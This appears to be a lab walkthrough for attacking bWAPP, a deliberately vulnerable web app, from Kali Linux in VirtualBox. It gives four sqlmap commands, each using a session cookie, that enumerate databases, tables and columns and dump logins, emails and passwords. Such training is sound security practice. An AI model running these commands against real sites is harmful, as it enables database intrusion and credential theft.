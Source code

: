 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ![](/assets/virtualbox-2-vm)

2. launch bWAP and make sure it is running;

   ![](/assets/bWAPP-from-vm)

3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/assets/acces-bWAPP-from-kali)

1. Go to SQL Injection \(GET/Search\)

![](/assets/sql-get)

1. key in a search string; copy of the resulted URL;![](/assets/search-box)

2. Find out the cookie for the site;

![](/assets/get-cookie-pref)

![](/assets/get-cookie-id)

**Now, it is show time; launch SQLmap from terminal;**

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/assets/s1)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/assets/s2)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/assets/s3)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/assets/s4)



